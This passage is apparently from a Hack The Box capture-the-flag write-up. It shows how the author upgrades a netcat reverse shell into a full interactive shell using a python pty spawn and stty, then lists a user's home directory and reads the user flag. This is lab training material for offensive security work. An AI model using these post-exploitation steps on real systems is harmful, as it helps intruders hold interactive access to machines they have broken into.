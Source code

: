 ### Stabilizing the shell
```
$ python --version
sh: 4: python: not found
$ python3 --version
Python 3.8.5
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@gettingstarted:/var/www/html/theme/Innovation$ ^Z
zsh: suspended  nc -lnvp 8081
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ stty size                                                                                                                                    148 ⨯ 1 ⚙
83 155
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ stty raw -echo; fg                                                                                                                                 1 ⚙
[1]  + continued  nc -lnvp 8081

www-data@gettingstarted:/var/www/html/theme/Innovation$ 
www-data@gettingstarted:/var/www/html/theme/Innovation$ export TERM=xterm-256color
www-data@gettingstarted:/var/www/html/theme/Innovation$ stty rows 83 columns 155 
www-data@gettingstarted:/var/www/html/theme/Innovation$ 
www-data@gettingstarted:/var/www/html/theme/Innovation$ 
```

### User flag
In the `/home` folder, we can find a home directory of a user called `mrb3n`. In here is the user flag:
```
www-data@gettingstarted:/var/www/html/theme/Innovation$ cd /home/
www-data@gettingstarted:/home$ ls -al 
total 12
drwxr-xr-x  3 root  root  4096 Feb  9  2021 .
drwxr-xr-x 20 root  root  4096 Feb  9  2021 ..
drwxr-xr-x  3 mrb3n mrb3n 4096 May  7  2021 mrb3n
www-data@gettingstarted:/home$ cd mrb3n/
www-data@gettingstarted:/home/mrb3n$ ls -al 
total 40
drwxr-xr-x 3 mrb3n mrb3n  4096 May  7  2021 .
drwxr-xr-x 3 root  root   4096 Feb  9  2021 ..
lrwxrwxrwx 1 mrb3n mrb3n     9 Feb  9  2021 .bash_history -> /dev/null
-rw-r--r-- 1 mrb3n mrb3n   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 mrb3n mrb3n  3771 Feb 25  2020 .bashrc
drwx------ 2 mrb3n mrb3n  4096 Feb  9  2021 .cache
-rw-r--r-- 1 mrb3n mrb3n   807 Feb 25  2020 .profile
-rw-r--r-- 1 mrb3n mrb3n     0 Feb  9  2021 .sudo_as_admin_successful
-rw------- 1 mrb3n mrb3n 10332 May  7  2021 .viminfo
-rw-rw-r-- 1 mrb3n mrb3n    33 Feb 16  2021 user.txt
www-data@gettingstarted:/home/mrb3n$ cat user.txt 
7002d65b149b0a4d19132a66feed21d8
www-data@gettingstarted:/home/mrb3n$ 
```
